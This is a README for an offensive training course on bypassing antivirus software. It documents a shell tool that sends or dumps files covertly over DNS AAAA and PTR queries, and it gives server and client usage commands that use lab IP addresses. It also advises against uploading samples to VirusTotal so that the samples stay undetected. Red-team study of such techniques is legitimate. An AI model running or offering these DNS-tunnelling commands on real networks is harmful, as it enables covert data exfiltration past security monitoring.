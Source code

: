 # Course : Bypassing Anti Viruses by C#.NET Programming

Part 2 (Infil/Exfiltration/Transferring Techniques by C#)  , Chapter 6 : DATA Transferring Technique by DNS Traffic (AAAA Records)

eBook : Bypassing Anti Viruses by C#.NET Programming

eBook chapter 4 , PDF Download : https://github.com/DamonMohammadbagher/eBook-BypassingAVsByCSharp/tree/master/CH6

Related Video : 

Video 1 for chapter 6: 

Video 2 for chapter 6: https://www.youtube.com/watch?v=Ac651MbNJ_U



Warning :Don't Use "www.virustotal.com" or something like that , Never Ever ;D

Recommended:

STEP 1 : Use each AV one by one in your LAB .

STEP 2 : after "AV Signature Database Updated" your Internet Connection should be "Disconnect" .

STEP 3 : Now you can Copy and Paste your C# code to your Virtual Machine for test .

# NativePayload_IP6DNS.sh help :

Example A-Step1: (Server Side ) ./NativePayload_IP6DNS.sh -r

Example A-Step2: (Client Side ) ./NativePayload_IP6DNS.sh -u text.txt DNSMASQ_IPv4 [delay] (sec) [address] xxxx:xxxx

example IPv4:192.168.56.110 : ./NativePayload_IP6DNS.sh -r

example IPv4:192.168.56.111 : ./NativePayload_IP6DNS.sh -u text.txt 192.168.56.110 delay 0 address fe81:2222

Description: with A-Step1 you will make DNS Server , with A-Step2 you can Send text file via IPv6 PTR Queries to DNS server


![](https://github.com/DamonMohammadbagher/NativePayload_IP6DNS/blob/master/Chapter%206%20-%20DATA%20Transferring%20Technique%20by%20DNS%20Traffic%20-%20AAAA%20Records/Pics/NativePayload_IP6DNS-Via-IPv6-PTR.png)

Example B-Step1: (Server Side ) ./NativePayload_IP6DNS.sh -d makedns test.txt mydomain.com [address] xxxx:xxxx

Example B-Step2: (Client Side ) ./NativePayload_IP6DNS.sh -d getdata mydomain.com DNSMASQ_IPv4"

example IPv4:192.168.56.110 : ./NativePayload_IP6DNS.sh -d makedns text.txt google.com address fe80:1234

example IPv4:192.168.56.111 : ./NativePayload_IP6DNS.sh -d getdata google.com 192.168.56.110

Description: with B-Step1 you will have DNS Server , with B-Step2 you can Dump test.txt file from server via IPv6 AAAA record Query

![](https://github.com/DamonMohammadbagher/NativePayload_IP6DNS/blob/master/Chapter%206%20-%20DATA%20Transferring%20Technique%20by%20DNS%20Traffic%20-%20AAAA%20Records/Pics/NativePayload_IP6DNS-Via-IPv6-AAAA.png)

